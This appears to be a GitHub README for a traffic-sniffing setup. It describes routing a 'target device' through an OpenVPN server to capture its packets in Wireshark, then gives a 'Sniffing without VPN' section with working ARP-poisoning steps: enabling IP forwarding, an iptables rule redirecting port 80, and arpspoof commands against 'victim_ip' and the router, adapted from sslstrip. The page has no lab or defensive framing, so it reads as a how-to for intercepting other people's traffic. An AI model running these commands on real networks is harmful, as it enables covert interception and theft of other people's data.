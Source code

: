 # Install

Make sure you have docker and wireshark installed.

#### Windows:
Download and install docker and wireshark from their websites.

#### Ubuntu:
```
apt-get install docker wireshark
```

#### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

#### Windows
Install Linux or get a Mac and continue.

#### Linux
From: https://github.com/moxie0/sslstrip

Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

#### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html

Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```
